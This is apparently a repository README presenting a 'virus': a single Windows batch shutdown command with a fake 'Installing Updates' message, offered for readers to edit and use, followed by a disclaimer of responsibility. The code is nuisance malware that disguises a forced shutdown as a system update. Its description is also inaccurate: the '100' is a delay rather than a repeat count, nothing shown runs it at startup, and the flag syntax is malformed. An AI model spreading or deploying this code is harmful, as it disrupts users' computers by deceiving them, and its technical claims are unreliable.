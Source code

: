 # Century Bat File Virus
This Single Line Of code will Shutdown The System On Every Startup 100 Times After Executing The Files. 
<br>
<br>
You Can Edit The Time Of Shutdown "100". You Can Also Edit The Message "Installing Updates".
```batch
shutdown -s -t 100 c "Installing Updates"
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

